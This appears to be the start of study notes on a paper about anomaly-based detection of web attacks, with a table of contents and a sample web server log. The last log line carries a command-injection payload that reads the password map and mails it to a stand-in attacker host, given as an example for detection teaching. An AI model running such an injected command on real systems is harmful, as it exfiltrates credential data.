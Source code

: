 # Using Generalization and Characterization Techniques in the Anomaly-based Detection of Web Attacks



- [Background Knowledge and Insight](#background-knowledge-and-insight)
    - [Web application](#web-application)
    - [Anomaly detection for web security](#anomaly-detection-for-web-security)
    - [Generalization and Characterization](#generalization-and-characterization)
- [Goal](#goal)
- [Architecture Overview](#architecture-overview)
- [Event Collection](#event-collection)
- [Anomaly Detection](#anomaly-detection)
    - [Attribute Length](#attribute-length)
    - [Character Distribution](#character-distribution)
    - [Structural Inference](#structural-inference)
    - [Token finder](#token-finder)
- [Anomaly Aggregation](#anomaly-aggregation)
- [Anomaly Signature Generation](#anomaly-signature-generation)
    - [Attribute Length](#attribute-length-1)
    - [Character Distribution](#character-distribution-1)
    - [Structural Inference](#structural-inference-1)
    - [Token finder](#token-finder-1)
- [Attack Class Inference](#attack-class-inference)
    - [Families of Attacks](#families-of-attacks)
        - [Directory Traversal](#directory-traversal)
        - [Cross-Site Scripting](#cross-site-scripting)
        - [SQL Injection](#sql-injection)
        - [Buffer Overflow](#buffer-overflow)
- [Reference](#reference)



## Background Knowledge and Insight

### Web application

* Easy to develop, deploy, and access
* Critical security vulnerabilities
    * Lack of awareness of security issues
    * Feature-driven development
    * Time-to-market constraints

### Anomaly detection for web security

```
128.111.41.15 "GET /cgi-bin/purchase?itemid=1a6f62e612&cc=mastercard" 200
128.111.43.24 "GET /cgi-bin/purchase?itemid=61d2b836c0&cc=visa" 200
128.111.48.69 "GET /cgi-bin/purchase?itemid=a625f27110&cc=mastercard" 200
131.175.5.35 "GET /cgi-bin/purchase?itemid=7e2877b177&cc=amex" 200
161.10.27.112 "GET /cgi-bin/purchase?itemid=80d2988812&cc=visa" 200
...
128.111.11.45 "GET /cgi-bin/purchase?itemid=109agfe111;ypcat%20passwd|mail%20wily@evil.com" 200
```
